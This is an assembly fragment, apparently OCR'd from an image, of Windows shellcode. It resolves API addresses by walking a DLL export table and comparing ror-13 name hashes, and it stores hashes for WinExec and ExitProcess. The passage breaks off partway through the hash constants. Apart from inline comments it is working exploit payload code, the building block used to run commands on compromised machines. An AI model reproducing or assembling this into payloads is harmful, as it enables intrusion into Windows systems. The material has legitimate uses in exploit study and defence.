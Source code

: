 ```
    jecxz find_function_finished
    dec ecx
    mov esi, [ebx + ecx * 4]
    add esi, ebp ; esi now points to current function string
     ; start of compute hash function
compute_hash: ; put this into a function
    xor edi, edi ; edi will hold our hash result
    xor eax, eax ; eax holds our current char
    cld
compute_hash_again:
    lodsb ; puts current char into eax (except first time)
    test al, al ; checks for null - end of function string
    jz compute_hash_finished
    ror edi, 0xd ; rotate the current hash
    add edi, eax ; adds current char to current hash
    jmp compute_hash_again
compute_hash_finished: ; end of compute hash function
find_function_compare:
    ;this is where it compares the calculated hash to our hash
    cmp edi, [esp + 0x28]
    jnz find_function_loop
    mov ebx, [edx + 0x24]
    add ebx, ebp
    mov cx, [ebx + 2 * ecx]
    mov ebx, [edx + 0x1c]
    add ebx, ebp
    mov eax, [ebx + 4 * ecx]
    add eax, ebp
    ;this is the VMA of the function
    mov [esp + 0x1c], eax
find_function_finished:
    popad
    ret

;END FUNCTION: find_function
;FUNCTION: resolve_symbols_for_dll
resolve_symbols_for_dll:
    ;about to load current hash into eax (pointed to by esi)
    lodsd
    push eax
    push edx
    call find_function
    mov [edi], eax
    add esp, 0x08
    add edi, 0x04
    cmp esi, ecx
    jne resolve_symbols_for_dll
resolve_symbols_for_dll_finished:
    ret
;END FUNCTION: resolve_symbols_for_dll
;DEFINE CONSTANTS

locate_hashes:
    call locate_hashes_return
    ;WinExec ;result hash = 0x98FE8A0E
    db 0x98
    db 0xFE
    db 0x8A
    db 0x0E
    ;ExitProcess ;result hash = 0x7ED8E273
    db 0x7E
    db 0xD8
    db 0xE2
```
